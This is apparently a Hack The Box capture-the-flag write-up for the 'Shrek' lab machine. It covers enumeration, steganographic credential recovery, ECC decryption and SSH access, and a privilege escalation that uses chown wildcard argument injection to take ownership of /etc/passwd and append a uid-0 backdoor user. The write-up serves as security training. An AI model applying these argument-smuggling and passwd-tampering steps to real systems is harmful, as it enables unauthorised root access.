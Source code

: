 ![logo](/logo.png)

# [Shrek- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 25 Aug 2017 machine on HTB,Shrek created by [SirenCeol](https://app.hackthebox.com/users/2277) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *spectogram
  *chrown
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/shrek 10.10.10.47
```

###### Output 

![](/Linux/Linux-Hard/Shrek/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/shrek 10.10.10.47                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 19:16 EAT
Nmap scan report for 10.10.10.47
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:a7:95:95:5d:dd:75:ca:bc:de:36:2c:33:f6:47:ef (RSA)
|   256 b5:1f:0b:9f:83:b3:6c:3b:6b:8b:71:f4:ee:56:a8:83 (ECDSA)
|_  256 1f:13:b7:36:8d:cd:46:6c:29:6d:be:e4:ab:9c:24:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.27 ((Unix))
|_http-title: Home
|_http-server-header: Apache/2.4.27 (Unix)
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.52 seconds
```


looking at the results  we find out that there are 3 ports open and its a `Unix`and its running an `Apache server`. 

port[21]-ftp
port[22]-ssh
port[80]-  httpd 2.4.27

so when we go the browser at [http://10.10.10.47](http://10.10.10.47) i find a shrek web browser.

![](/Linux/Linux-Hard/Shrek/Screenshots/shrek.png)

I find nothing of intresting so let me start a gobuster so that i can enumerate directories

```sh
gobuster dir -u http://10.10.10.47 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Hard/Shrek/Screenshots/gobuster.png)

i find a directory named upload and checking on it i find intresting `php`

![](/Linux/Linux-Hard/Shrek/Screenshots/uploads.png)

lets get all the files here and start looking at them one by one

```sh
wget http://10.10.10.47/uploads/ -r -np -nH --cut-dirs=1 -R "index.html*"
```

- `-r`: Recursively download files.
- `-np`: No parent; prevents `wget` from following links to parent directories.
- `-nH`: No host directories; prevents `wget` from creating a directory structure based on the domain name.
- `--cut-dirs=1`: Skips the specified number of directory levels from the beginning of the directory structure. Adjust the number based on how deep the directory structure is.
- `-R "index.html*"`: Excludes `index.html` files, which are often unnecessary.

![](/Linux/Linux-Hard/Shrek/Screenshots/wget.png)

a file named `secret_ultimate.php`. Reveal some useful information, when downloaded with it revaels about another directory named `/secret_area_51/` The file is a copy of the `php-reverse-shell.php` webshell that comes in `/usr/share/webshells/php` on Kali by default, except there’s an extra variable created at the top.

![](/Linux/Linux-Hard/Shrek/Screenshots/nanosecrete.png)

![](/Linux/Linux-Hard/Shrek/Screenshots/secrete.png)

so lets download the `mp3`  its an `All star` let me import it to audacity 

![](Linux/Linux-Hard/Shrek/Screenshots/audacity.png)


What’s interesting there is at the end the song fades out, and then there’s some extra static at the end [Wikipedia](https://en.wikipedia.org/wiki/All_Star_(song)) confirms that the song is 3:21 long, so the stuff that sounds like static at the end is definitely interesting. I’ll change it from Waveform to Spectrogram in the settings bar on the left:

![](/Linux/Linux-Hard/Shrek/Screenshots/waveform.png)

once you change spectogram the you increase the max frquency by a factor of 10 meaning being 2200 to 22000 then expand the waveform and now there’s a clear message in the noise.

![](Linux/Linux-Hard/Shrek/Screenshots/stenegrophy.png)

from their we can see the password of an ftp lets log in to the ftp with the username `donkey` and the password `d0nk3y1337!`

![](/Linux/Linux-Hard/Shrek/Screenshots/ftp.png)

There are 31 `.txt` files, and `key`

lets download all this 31 files in my local machine by doing this

```sh
mget * a
```

turned to these `.txt` files. On first glance, each of the `.txt` files contain what looks like a single base64 encoded string. Decoding it just dumps garbage. I wanted to verify that each file was a single string, so I ran `wc` on each file

```sh
wc *.txt
```

![](/Linux/Linux-Hard/Shrek/Screenshots/wc.png)

Two of the files have three words! The first one has a bunch of `base64`, some spaces, then a short base64 word, more space, and then a long one.

![](/Linux/Linux-Hard/Shrek/Screenshots/strings.png)

I open the two `.txt` i find a middle string `UHJpbmNlQ2hhcm1pbmc=` lets decode.

```sh
echo "UHJpbmNlQ2hhcm1pbmc=" |base64 -d 
```

![](/Linux/Linux-Hard/Shrek/Screenshots/echo.png)

The second file had a similar pattern, though the string in the middle was longer, and it decodes to binary data

![](/Linux/Linux-Hard/Shrek/Screenshots/wcecho.png)

```sh
echo "J1x4MDFceGQzXHhlMVx4ZjJceDE3VCBceGQwXHg4YVx4ZDZceGUyXHhiZFx4OWVceDllflAoXHhmN1x4ZTlceGE1XHhjMUtUXHg5YUlceGRkXFwhXHg5NXRceGUxXHhkNnBceGFhInUyXHhjMlx4ODVGXHgxZVx4YmNceDAwXHhiOVx4MTdceDk3XHhiOFx4MGJceGM1eVx4ZWM8Sy1ncDlceGEwXHhjYlx4YWNceDlldFx4ODl6XHgxM1x4MTVceDk0RG5ceGViXHg5NVx4MTlbXHg4MFx4ZjFceGE4LFx4ODJHYFx4ZWVceGU4Q1x4YzFceDE1XHhhMX5UXHgwN1x4Y2N7XHhiZFx4ZGFceGYwXHg5ZVx4MWJoXCdRVVx4ZTdceDE2M1x4ZDRGXHhjY1x4YzVceDk5dyc=" |base64 -d
```

![](/Linux/Linux-Hard/Shrek/Screenshots/binary.png)

I had a pretty good idea at this point that I had some cipher text and a password, but knowing what algorithm to use was kind of a random guess. It turns out that this is using ECC crypto, and there’s a Python library `seccure` (note two c’s) that will handle the decryption.

```sh
import seccure

cipher = b'\x01\xd3\xe1\xf2\x17T \xd0\x8a\xd6\xe2\xbd\x9e\x9e~P(\xf7\xe9\xa5\xc1KT\x9aI\xdd\\!\x95t\xe1\xd6p\xaa"u2\xc2\x85F\x1e\xbc\x00\xb9\x17\x97\xb8\x0b\xc5y\xec<K-gp9\xa0\xcb\xac\x9et\x89z\x13\x15\x94Dn\xeb\x95\x19[\x80\xf1\xa8,\x82G`\xee\xe8C\xc1\x15\xa1~T\x07\xcc{\xbd\xda\xf0\x9e\x1bh\'QU\xe7\x163\xd4F\xcc\xc5\x99w'
key = b"PrinceCharming"
print (seccure.decrypt(cipher, key))

```

![](/Linux/Linux-Hard/Shrek/Screenshots/import.png)

There is a key file that can be found on the FTP server. Using the above credentials, it is possible
to SSH in.

```sh
openssl rsa -in key -out id_rsa
```

![](/Linux/Linux-Hard/Shrek/Screenshots/openssl.png)

and just way we get a ssh shell and a `user flag`

![](/Linux/Linux-Hard/Shrek/Screenshots/userflag.png)

# Privillage Escalation

I have seen a cron that is running `chown nobody:nobody *` in `/usr/src`. I can take advantage of a wildcard exploit here. There’s a great [paper on exploiting wildcards](https://www.exploit-db.com/papers/33930) in Unix (and Linux) from Leon Juranic from 2014. The issue is this. When I run `ls *`, what the shell is doing is expanding out that `*` to a list of all the files in the directory. So if I have a directory with files `a.txt` and `b.txt`, and I run `ls *`, the system ends up running `ls a.txt b.txt`.

This gets tricky if I add another file and name it `-l`. Now it runs `ls a.txt b.txt -l`, which ends up running `ls -l` and printing the details for the two `.txt` files.

As the paper shows, I can abuse this with `chown` using the `--reference=[file]` option. I can change any file on the system to be owned by any other user, as long as I have a file owned by that user to reference.

Immediately what comes to mind for me is taking ownership of a file like `/etc/passwd` as sec. I need a file to be the reference, so just create one. Then I need the file that will be interpreted as a flag. I’ll name it `--reference=test`. To create a file with this weird name, I’ll run `touch -- --reference=test`. In Linux, `--` tells the shell that anything that follows is a filename, and not an argument. With that in place, I’ll create a symbolic link to `passwd`:

```sh
n -s /home/src/.bashrc
touch -- --reference=.bashrc
ln -s /etc/passwd
```

![](/Linux/Linux-Hard/Shrek/Screenshots/symlink.png)

Now I just need to add a root user to `/etc/passwd`. I’ll create a hash

```sh
openssl passwd -1 leshack
```

![](/Linux/Linux-Hard/Shrek/Screenshots/srcpasswd.png)

Now I’ll add the string to `passwd`, with uid and gui both 0 for root

```
echo 'leshack:$1$R4pPJIGP$D288RuZhEwWJxCzrECS2L/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

so i log in with the created password and name as `leshack`:`leshack`

![](/Linux/Linux-Hard/Shrek/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------

